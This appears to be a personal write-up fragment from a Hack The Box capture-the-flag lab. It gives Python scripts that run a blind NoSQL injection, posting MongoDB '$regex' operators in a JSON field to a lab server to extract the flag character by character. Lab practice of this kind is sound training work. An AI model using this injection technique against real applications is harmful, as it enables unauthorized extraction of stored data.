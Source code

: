 ```python
p1 = log.progress("Tracking code discover")
for _ in range(8): # Repeat the following 8 times
    for c in "0123456789A": # Loop through characters [0-9a-f]
        
        # Check if <trackingNum> + <char> matches with $regex
        if request({"$regex": "^" + trackingNum + c}): 
            trackingNum += c # If it does, append character to trackingNum ...
            break # ... and break out of the loop
    p1.status(trackingNum)

print("Tracking Number: " + trackingNum)
```

![[Pasted image 20230502172142.png]]

logica para descubrir la bandera

```python
#!/usr/bin/python3

import requests
import json
from pwn import *


# make request
def request(t):
    r = requests.post(
        "http://138.68.170.86:32408/index.php",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
    return "bmdyy" in r.text #part of success response

# Dump the tracking number
trackingNum = "HTB{" # Tracking number 
p1 = log.progress("Tracking code discover")
for _ in range(32): # Repeat the following 8 times
    for c in "0123456789abcdef": # Loop through characters [0-9a-f]
        
        # Check if <trackingNum> + <char> matches with $regex
        if request({"$regex": "^" + trackingNum + c}): 
            trackingNum += c # If it does, append character to trackingNum ...
            break # ... and break out of the loop
    p1.status(trackingNum)

trackingNum += "}"
print("Tracking Number: " + trackingNum)
```

![[Pasted image 20230502172545.png]]
